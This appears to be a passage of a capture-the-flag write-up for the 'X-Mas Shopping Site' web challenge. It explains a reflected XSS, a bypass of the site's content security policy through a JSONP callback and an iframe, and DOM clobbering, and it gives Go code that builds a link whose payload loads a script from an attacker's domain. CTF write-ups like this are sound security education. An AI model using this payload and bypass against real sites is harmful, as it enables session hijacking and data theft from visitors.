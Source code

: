 ```console
[*] Closed connection to hax1.allesctf.net port 9400
 Did you say 'Quack! Quack!'? I can't really understand you, the ducks are too loud!
CSCG{下一家烤鴨店在哪裡？}
```

<a id="markdown-x-mas-shopping-site-web" name="x-mas-shopping-site-web"></a>
## X-Mas Shopping Site (web)

We're given a Christmas-themed shopping website with several different pages:

* an index page where we have a list of products.
* an about page with the photo of a cat.
* a link submission page that says links will be checked by admin.
* a search result page, reachable through the search box on every other page.
* a 'Stage2' link that goes to a page saying `CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}`.

So it's pretty clear what we need to do - submit a link that when visited by the admin tricks their browser into sending us the real flag.

The first vulnerability is obvious, when displaying the search results [the query is embedded in the page](http://xss.allesctf.net/?search=%3Ca+href%3D%22https%3A%2F%2Fen.wikipedia.org%2Fwiki%2FCross-site_scripting%23Non-persistent_%28reflected%29%22%3Ereflected+xss%3C%2Fa%3E) without any santization.

However, we can't just execute JS embedded in the page because of the site's content security policy which blocks scripts that are not hosted on the same domain from executing.

But there's another thing we can use - one of the APIs uses jsonp and the name of the function is passed via parameter. The only restriction is the length - it's limited to ~250 characters.

I wanted to be able to execute arbitrary scripts so I spent some time fighting with CSP. After a couple of Google sessions I came up with injecting an iframe which loads the website error page (which doesn't have CSP headers) and add an onload handler for the iframe which injects a script from a domain I own. This worked nicely so now we have arbitrary code execution in the context of the search result page.

However this is not enough to get the flag. The flag page is hosted on a different subdomain and we can't fetch the contents from JS because of CORS. We need to somehow execute code in the context of the Stage2 page. We can redirect the admin there, but we need a way to get the flag information back to us.

The background switching endpoint callend from the Stage2 page can be exploited to store any value which is then reflected in an HTML attribute in the page. This page is also protected by CSP so we can't just inject a script here. I wasted several hours trying to eat the nonce in the following script tag but nothing worked. Then I remembered something about dom clobbering from one of LiveOverflow's videos and it clicked - I could ovewrite the value of the background variable by embedding it inside a dom element with that ID. The value then gets handled by jQuery and doesn't have the CSP constraint so we can set `backgrounds` to equal a `<script>` tag with another malicious payload. When jQuery receives this it will create a script and append it to the DOM, which executes the code and sends the flag.

This is how we craft the link we submit to the admin:

```go
const base = "http://xss.allesctf.net/"

var script = `var d=document,i=d.createElement('iframe');i.src='//xss.allesctf.net/x';d.body.appendChild(i);i.onload=function(){var cd=i.contentDocument,s=cd.createElement('script');s.src='<external script src goes here>';cd.body.appendChild(s)};`
input := fmt.Sprintf(`<script src="http://xss.allesctf.net/items.php?cb=%s"></script>`, script)
query := "http://xss.allesctf.net/?search=" + url.QueryEscape(input)
```
